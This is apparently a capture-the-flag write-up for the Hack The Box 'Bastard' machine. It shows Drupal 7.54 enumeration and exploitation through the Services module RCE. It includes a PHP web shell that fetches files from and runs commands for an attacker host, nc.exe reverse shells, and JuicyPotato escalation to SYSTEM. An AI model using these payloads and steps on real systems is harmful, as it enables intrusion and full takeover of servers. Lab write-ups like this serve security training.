 # Bastard - Medium

## Enumeration
`sudo nmap 10.129.152.54 -p- -sV -vv -A --open --reason`

Interesting result that I first investigated:
```
80/tcp    open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Welcome to Bastard | Bastard
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Microsoft-IIS/7.5
| http-robots.txt: 36 disallowed entries 
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
| /LICENSE.txt /MAINTAINERS.txt /update.php /UPGRADE.txt /xmlrpc.php 
| /admin/ /comment/reply/ /filter/tips/ /node/add/ /search/ 
| /user/register/ /user/password/ /user/login/ /user/logout/ /?q=admin/ 
| /?q=comment/reply/ /?q=filter/tips/ /?q=node/add/ /?q=search/ 
|_/?q=user/password/ /?q=user/register/ /?q=user/login/ /?q=user/logout/
```

I checked the various sub-directories that were in `robots.txt`. `/CHANGELOG.txt` is the file that gave away the version number of Drupal that is being used:

```
Drupal 7.54, 2017-02-01
-----------------------
- Modules are now able to ...
```

The first search result gave us this exploit (https://www.exploit-db.com/exploits/41564). Someone even wrote a guide for it (https://vk9-sec.com/drupal-7-x-module-services-remote-code-execution/)

## Getting a Shell
Basically, following the guide:
1. Confirmed `$endpoint_path` exists by visiting the browser
- `http://10.129.152.54/rest_endpoint` gives `404`
- `http://10.129.152.54/rest` gives `200 OK`

3. The `41564.php` script was changed for the following lines:
    ```
    $url = 'http://10.129.152.54';
    $endpoint_path = '/rest';
    $endpoint = 'rest_endpoint';
    $phpCode = <<<'EOD'
    <?php
        if (isset($_REQUEST['fupload'])) {
            file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.6:8888/" . $_REQUEST['fupload']));
        };
        if (isset($_REQUEST['fexec'])) {
            echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
        };
    ?>
    EOD;

    $file = [
        'filename' => 'test3.php',
        'data' => $phpCode
    ];
    ```
4. Installed `php-curl` using `sudo apt-get install php-curl`
- Test if the new variables `fupload` and `fexec` works: `http://10.129.152.54/test3.php?fexec=dir`

5. Opened a web server to serve files, using `python3 -m http.server 8888` and uploaded `nc.exe`, `wget.exe`, and any subsequent files that we want to upload.

6. Set up a listener on kali to receive the reverse shell on target machine
- Visit `http://10.129.152.54/test3.php?fupload=nc.exe&fexec=nc.exe -e cmd 10.10.14.6 4444`

7. Local shell obtained, with flag:
    ```
    ┌──(kali㉿kali)-[~]
    └─$ nc -nlvp 4444
    listening on [any] 4444 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.129.152.54] 63450
    Microsoft Windows [Version 6.1.7600]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\inetpub\drupal-7.54>whoami
    whoami
    nt authority\iusr
    ```

    ```
    C:\Users>type C:\Users\dimitris\Desktop\user.txt
    type C:\Users\dimitris\Desktop\user.txt
    008d31a0b6ea4621924e7b41abf5c981
    ```

## Privilege Escalation
Initially, I went straight to check for kernel exploits using the Windows Exploit Suggester (https://github.com/AonCyberLabs/Windows-Exploit-Suggester). After fixing hte `xlrd` issues, etc and trying the exploits, I didn't find any that worked. 

However, checking the privileges of the user:
```
C:\Users>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled
```
`systeminfo` also reveals that the OS is `Windows Server 2008 R2 Datacenter`. Perfect, we can just use `JuicyPotato`.

I used `fupload` to upload `JuicyPotato.exe` from https://github.com/ohpe/juicy-potato/releases. The default CLSID does not work,  but using the first one found here (https://ohpe.it/juicy-potato/CLSID/) does:
```
C:\Windows\Tasks>JP -l 1337 -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}" -p C:\Windows\system32\cmd.exe -a "/c c:\inetpub\drupal-7.54\nc.exe -e cmd.exe 10.10.14.6 443" -t *
JP -l 1337 -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}" -p C:\Windows\system32\cmd.exe -a "/c c:\inetpub\drupal-7.54\nc.exe -e cmd.exe 10.10.14.6 443" -t *
Testing {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} 1337
....
[+] authresult 0
{9B1F122C-2982-4e91-AA8B-E071D54F2A4D};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\Windows\Tasks>
```

Of course a listener was set up prior, and a root shell was obtained:
```
┌──(kali㉿kali)-[~/Downloads]
└─$ nc -nlvp 443 
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.129.152.54] 64848
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Flag:
```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
9614a83ee8ae281ce3d26bf0596545aa
```
GG.